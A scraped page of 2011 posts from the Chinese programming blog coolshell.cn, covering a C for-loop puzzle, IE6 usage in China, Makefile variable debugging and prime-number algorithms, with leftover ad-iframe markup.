src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=819697741&amp;adf=3676217089&amp;pi=t.aa~a.425447425~i.6~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684225753&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3961.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xuHdZIikU9EGYOYCggifwySzs3QHBcU5U-LtnyZNjshgUbeWbsqHrtR5sXxFN5PDEb3ggTc&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225759943&amp;bpp=1&amp;bdt=5241&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C728x90%2C704x280&amp;nras=6&amp;correlator=7207738672107&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=2093664662&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=1352&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074635%2C44785292%2C44788442%2C44790154&amp;oid=2&amp;psts=ABHeCvigHN1X8UrmmIk0-oVERvOpPXyy54X9lURd64Wy22eJL874q1CBoqLC6p6R4z13L9Fi4rtEzuk77ygd&amp;pvsid=3318438438435949&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F29&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=6&amp;uci=a!6&amp;btvi=3&amp;fsb=1&amp;xpc=dXSdTJm3XL&amp;p=https%3A//coolshell.cn&amp;dtd=11827" data-google-container-id="a!6" data-google-query-id="CM-_1fa1-f4CFW8HrQYd0bUJ4g" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

不要以为这题不是很难，我相信你并不那么容易能找到3种方法。我觉得，如果你能在10分钟内找出这三种方法，说明你真的很聪明，而且反应很快。当然，15分钟内也不赖。不过，你要是30分钟内找不到三种方法，当然，不说明你笨了，最多就是你的反应还不够快。嘿嘿。就当是玩玩吧。

下面是我的答案：

//第一种解法：在for循环中给n加一个负号

**for**(**int** i = 0; i < -n; i--)

//第二种解法：把 n 初始化成 -20

**int** n = -20;

//第三种解法：把for循环中的 i 初始化成40

**for**(**int** i = 40; i < n; i--)

不过，我要告诉你，以上这些答案都不对（我就知道你会偷看答案的），不过，顺着这些思路走很接近了。呵呵。

下面是正确答案——


//第一种解法：在for循环中给 i 加一个负号

**for**(**int** i = 0; -i < n; i--)

//第二种解法：在for循环中把 i-- 变成 n--

**for**(**int** i = 0; i < n; n--)

//第三种解法：把for循环中的 < 变成 +

**for**(**int** i = 0; i + n; i--)

其它相关的变种题如下：

- 通过修改、增加一个字符，让其输出21个减号
- 通过修改、增加一个字符，让其只输出1个减号
- 通过修改、增加一个字符，让其不输出减号

（全文完）

# 中国仍是IE6的重灾区

#####  [2011年03月10日 ](https://coolshell.cn/articles/3921.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [56 条评论](https://coolshell.cn/articles/3921.html#comments) 19,614 人阅读

“IE6于10年前诞生，现在应该是我们同IE6告别的时候了。”微软公司日前推出IE6倒计时网站（the Internet Explorer 6 Countdown，网址为[www.ie6countdown.com](http://www.ie6countdown.com/)），旨在尽早淘汰IE6，让用户升级到新版IE浏览器。

值得注意一点的是，在这张百分比图上所显示的目前仍在使用IE6浏览器上网的百分比第一的是中国——34.5%，这个符合我国国情——什么都要争第一。我国人口世界第一占全世界1/4，网民也是世界第一，还在使用IE6的网民占全世界的1/3，可以我国网民的严重落后。根据[CNNIC今年的报告](http://www.cnnic.net.cn/dtygg/dtgg/201101/t20110118_20250.html)，我国现有4.5亿网民，34%也就是1.5亿用户，也就是说你身边每三个人中就有一个在用IE6。而中国的IE6网民占全世界使用IE6网民的一半。

另外，我发现亚洲是重灾区啊，包括中日韩台印都很猛啊，看来微软在亚洲的营销的确不错。


我查看了一下Coolshell.cn的2011年到今天为止访问统计，排名第一是的Chrome(41.5%)，第二位的是Firefox(23.22%)，第三位的是IE8(10.7%)，第四位的是IE6(4.8%)。IE6的IP数有6400+。

看来，在我国程序员这个人群中，越来越多的人使用Chrome+Firefox，挺喜人的，但是IE6还有4.8%，还不如土耳其，马来西亚，印尼等国家。

# 计算机专业学生的大学生活

#####  [2011年03月17日 ](https://coolshell.cn/articles/3928.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [14 条评论](https://coolshell.cn/articles/3928.html#comments) 14,882 人阅读

下面看到某国外的同学描述的自己的大学生活，呵呵。做一下解释，

- 正常的生活是，10点到17点上课，17点到22点是放松和work（chill相当于relax），22点到凌晨1点是社交活动，然后睡8小时。
- 计算机专业的学生的生活是，只要你脑子还在转就work，脑子不转了，就睡2小时。（~~原来，国外的计算机大学的同学们在大学时就已在疯狂工作了，课都不上~~）（work是在校的学术作业项目（谢谢网友rho指正））

[](http://i.imgur.com/4kQAz.jpg)计算机专业学生的大学生活

不过，看了一下上面的代码，我发现了两个问题：

1. sleep(2)，在posix下是秒，在windows下是毫秒。
2. (hour >= 22  &&  hour < 1) 这个表达式永假。正确的是(hour >= 22 || hour < 1)

当然，我们并不能下结论——该同学的在学校里并没有学好编程。因为，你不知道Sleep 和 && 有没有被重载了。（你要把&&在某些情况下重载成||的行为也不是不可能 。**注：在c++中，你无法重载内建类型的操作符**）

——————

最后说明一下，最近事太多（一个项目要上线，另一个项目需求分析和设计、招聘、酷壳服务器迁移、带孩子、申请签证、给人做培训），所以没有更新，大家见谅。

# 如何调试MAKEFILE变量

#####  [2011年03月01日 ](https://coolshell.cn/articles/3790.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [35 条评论](https://coolshell.cn/articles/3790.html#comments) 45,318 人阅读

六、七年前写过一篇《[跟我一起写Makefile](http://blog.csdn.net/haoel/archive/2004/02/24/2886.aspx)》，直到今天，还有一些朋友问我一些Makefile的问题，老实说，我有一段时间没有用Makefile了，生疏了。回顾，这几年来大家问题我的问题，其实很多时候是makefile的调试问题。所以，就像我在之前的那篇[关于GDB的技巧的文章](https://coolshell.cn/articles/3643.html)中做的一样，在这里向大家介绍一个小小的调试变量的技巧。相信一定对你有用。

对于Makefile中的各种变量，可能是我们比较头痛的事了。我们要查看他们并不是很方便，需要修改makefile加入echo命令。这有时候很不方便。其实我们可以制作下面一个专门用来输出变量的makefile（假设名字叫：vars.mk）

%:

​        @echo '$*=$($*)'

d-%:

​        @echo '$*=$($*)'

​        @echo '  origin = $(origin $*)'

​        @echo '   value = $(value  $*)'

​        @echo '  flavor = $(flavor $*)'

<iframe id="aswift_5" name="aswift_5" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=778509212&amp;adf=2667579305&amp;pi=t.aa~a.425447425~i.5~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684220757&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3790.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xjN2NTeYsDiUrUicUppcGVE7w0vXATbeOFRqLX9OuevUKd2xVzxPFzl71iGYXdDIbkJ4-c4&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225881288&amp;bpp=1&amp;bdt=3968&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C120x600%2C728x90&amp;nras=6&amp;correlator=2127246560478&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=1410033312&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=1220&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074468%2C31074601%2C31074635%2C44788441%2C44792088&amp;oid=2&amp;psts=ABHeCvgHfCvcUqBpt5H0tyt_fC2e85ly6ZSbf2SUaqwNqvU8DYJsjTCKcyUxzxDu9dAX20Gjhcwg_6sypfxo4pW3ceer&amp;pvsid=1889103348493172&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F30&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=6&amp;uci=a!6&amp;btvi=3&amp;fsb=1&amp;xpc=hrTvfSnBOj&amp;p=https%3A//coolshell.cn&amp;dtd=44451" data-google-container-id="a!6" data-google-query-id="CL_TisC2-f4CFQq2YgodvG0EWQ" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

<iframe id="aswift_6" name="aswift_6" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=778509212&amp;adf=1618057787&amp;pi=t.aa~a.425447425~i.6~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684220757&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3790.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xjN2NTeYsDiUrUicUppcGVE7w0vXATbeOFRqLX9OuevUKd2xVzxPFzl71iGYXdDIbkJ4-c4&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225881298&amp;bpp=1&amp;bdt=3978&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C120x600%2C728x90%2C704x280&amp;nras=7&amp;correlator=2127246560478&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=1410033312&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=1500&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074468%2C31074601%2C31074635%2C44788441%2C44792088&amp;oid=2&amp;psts=ABHeCvgHfCvcUqBpt5H0tyt_fC2e85ly6ZSbf2SUaqwNqvU8DYJsjTCKcyUxzxDu9dAX20Gjhcwg_6sypfxo4pW3ceer&amp;pvsid=1889103348493172&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F30&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=7&amp;uci=a!7&amp;btvi=4&amp;fsb=1&amp;xpc=D1wMh93a24&amp;p=https%3A//coolshell.cn&amp;dtd=44501" data-google-container-id="a!7" data-google-query-id="CN_hjcC2-f4CFeiGfwQdjHAM_Q" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

这样一来，我们可以使用make命令的-f参数来查看makefile中的相关变量（包括make的内建变量，比如：COMPILE.c或MAKE_VERSION之类的）。**注意：第二个以“d-”为前缀的目标可以用来打印关于这个变量更为详细的东西**（后面有详细说明）

假设我们的makefile是这个样子（test.mk）

OBJDIR := objdir

OBJS := $(addprefix $(OBJDIR)/,foo.o bar.o baz.o)

foo = $(bar)bar = $(ugh)ugh = Huh?

CFLAGS = $(include_dirs) -O

include_dirs = -Ifoo -Ibar

CFLAGS := $(CFLAGS) -Wall

MYOBJ := a.o b.o c.o

MYSRC := $(MYOBJ:.o=.c)

那么，我们可以这样进行调试：

[hchen@RHELSVR5]$ make -f test.mk -f var.mk OBJS

**OBJS**=objdir/foo.o objdir/bar.o objdir/baz.o

[hchen@RHELSVR5]$ make -f test.mk -f var.mk d-foo

**foo**=Huh?

  origin = file

  value = $(bar)

  flavor = recursive

[hchen@RHELSVR5]$ make -f test.mk -f var.mk d-CFLAGS

**CFLAGS**=-Ifoo -Ibar -O -O

  origin = file

  value = -Ifoo -Ibar -O -O

  flavor = simple

[hchen@RHELSVR5]$  make -f test.mk -f var.mk d-COMPILE.c

COMPILE.c=cc -Ifoo -Ibar -O -Wall   -c

  origin = default

  flavor = recursive

   value = $(CC) $(CFLAGS) $(CPPFLAGS) $(TARGET_ARCH) -c

我们可以看到：

- make的第一个-f后是要测试的makefile，第二个是我们的debug makefile。
- 后面直接跟变量名，如果在变量名前加”d-“，则输出更为详细的东西。

说一说”d-” 前缀（其意为details），其中调用了下面三个参数。

- [$(origin)](http://www.gnu.org/software/make/manual/make.html#Origin-Function)：告诉你这个变量是来自哪儿，file表示文件，environment表示环境变量，还有environment override，command line，override，automatic等。
- [$(value)](http://www.gnu.org/software/make/manual/make.html#Value-Function)：打出这个变量没有被展开的样子。比如上述示例中的 foo 变量。
- [$(flavor)](http://www.gnu.org/software/make/manual/make.html#Flavor-Function)：有两个值，simple表示是一般展开的变量，recursive表示递归展开的变量。

（全文完）

# 打印质数的各种算法

#####  [2011年02月28日 ](https://coolshell.cn/articles/3738.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [45 条评论](https://coolshell.cn/articles/3738.html#comments) 41,354 人阅读

打印质数的算法应该是学习计算机编程的一个经典的问题，在这里想给大家展示一些方法，相信这些方法会对你的编程有一定的启发作用。请你注意几点，

- 实际应用和教学应用有很大的差别。
- 最后的那个使用编译时而不是运行时的方法大家可以重点看看。

目录


[教科书的示例](https://coolshell.cn/articles/3738.html#教科书的示例)[较好的算法](https://coolshell.cn/articles/3738.html#较好的算法)[实际应用的算法](https://coolshell.cn/articles/3738.html#实际应用的算法)[使用编译时而不是运行时](https://coolshell.cn/articles/3738.html#使用编译时而不是运行时)

#### 教科书的示例

首先，先给一个教科书的示例。下面这个示例应该是教科书（至少是我上大学时的教科学）中算法复杂度最好的例子了。其想法很简单，先写一个判断是否是质数的函数isPrime()，然后从1到n分别调用isPrime()函数来检查。检查是否是质数的算法是核心，其简单的使用从2到n的开根的数作为除数。这样的算法复杂度几乎是O(n*log(n))，看上去不错，但其实很不经济。

<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=1355985769&amp;adf=2699779848&amp;pi=t.aa~a.425447425~i.9~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684225949&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3738.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xnMUes7P5fNuj2UwsS35QKrZcboKu3Eq19pSd9LtnYutSgOcY2g5v-wN0mLVsiN2OtpSLN4&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225954775&amp;bpp=1&amp;bdt=4315&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764&amp;nras=4&amp;correlator=5833827868184&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=1933435665&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=1369&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31071756%2C31074546%2C31074635%2C44785293%2C44788442%2C44792088&amp;oid=2&amp;psts=ABHeCvgafWyiz31o1xXPAh9e7PE0-8CP_Uxi4BcEL1NV68Ps1mrjKDBdgFlSWPNwQO1h7yMsm0ZhU9fWwDuHxafla7bN&amp;pvsid=2486013753701903&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F30&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=3&amp;uci=a!3&amp;btvi=1&amp;fsb=1&amp;xpc=j5GBZScNSG&amp;p=https%3A//coolshell.cn&amp;dtd=5690" data-google-container-id="a!3" data-google-query-id="CP6q1NC2-f4CFVfr5wMdud4F9g" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

**#include <iostream>**

**using** **namespace** std;

**bool** isPrime(**int** nr)

{

​    **for** (**int** d = 2; (d * d) < (nr + 1); ++d){

​        **if** (!(nr % d)){

​            **return** **false**;

​        }

​     }

​    **return** **true**;

}

**int** main (**int** argc, **char** * const argv[])

{

​    **for** (**int** i = 0; i < 50; ++i){

​        **if** (isPrime(i)){

​            cout << i << endl;

​        }

​    }

}

<iframe id="aswift_3" name="aswift_3" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=1355985769&amp;adf=625662407&amp;pi=t.aa~a.425447425~i.11~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684225949&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3738.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xnMUes7P5fNuj2UwsS35QKrZcboKu3Eq19pSd9LtnYutSgOcY2g5v-wN0mLVsiN2OtpSLN4&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225954788&amp;bpp=1&amp;bdt=4328&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C704x280&amp;nras=5&amp;correlator=5833827868184&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=1933435665&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=2067&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31071756%2C31074546%2C31074635%2C44785293%2C44788442%2C44792088&amp;oid=2&amp;psts=ABHeCvgafWyiz31o1xXPAh9e7PE0-8CP_Uxi4BcEL1NV68Ps1mrjKDBdgFlSWPNwQO1h7yMsm0ZhU9fWwDuHxafla7bN&amp;pvsid=2486013753701903&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F30&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=4&amp;uci=a!4&amp;btvi=2&amp;fsb=1&amp;xpc=NjCyQ8LHih&amp;p=https%3A//coolshell.cn&amp;dtd=5751" data-google-container-id="a!4" data-google-query-id="CL-o19C2-f4CFVoPdgYdP14Dhg" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

#### 较好的算法

我们知道，我们的算法如果写成线性算法，也就是O(n)，已经算是不错了，但是最好的是O(Log(n))的算法，这是一个对数级的算法，著名的二分取中（Binary Search）正是O(Log(n))的算法。**通常来说，O(Log(n))的算法都是以排除法做为手段的**。所以，找质数的算法完全可以采用排除法的方式。如下所示，这种算法的复杂度是*O**(n(log(logn)))。*

**示例：打印30以内的质数**

一、初始化如下列表。

```
 2  3  4  5  6  7  8  9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30
```

二、把第一个数（2）取出来，去掉所有可以被2整除的数。

```
 2  3     5     7     9    11    13    15    17    19    21    23    25    27    29
```

三、取第二个数（3），去掉所有可以被 3整除的数。

```
 2  3     5     7          11    13          17    19          23    25          29
```

四、取第三个数（5），因为4已经被去除了，再去掉所有可以被5整除的数。

```
 2  3     5     7          11    13          17    19          23                29
```

接下来的数是7，但是7的平方是49，其大于了30，所以我们可以停止计算了。剩下的数就是所有的质数了。

#### 实际应用的算法

实际应用中，我们通常不会使用上述的两种算法，因为那是理论学院派的算法。实际中的算法是，我把质数事先就计算好，放在一个文件中，然后在程序启动时（注意是在启动时读这个文件，而不是运行时每调用一次就读一次文件），读取这个文件，然后打印出来就可以了。如果需要查找的化，二分查找或是hash表查找将会获得巨大的性能提升。当然，这样的方法对于空间来说比前面两个都要消耗得大，但是你可以有O(log(n))或是O(1)的时间复杂度。

<iframe id="aswift_6" name="aswift_6" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=1355985769&amp;adf=2879111764&amp;pi=t.aa~a.425447425~i.40~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684225949&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3738.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xnMUes7P5fNuj2UwsS35QKrZcboKu3Eq19pSd9LtnYutSgOcY2g5v-wN0mLVsiN2OtpSLN4&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSww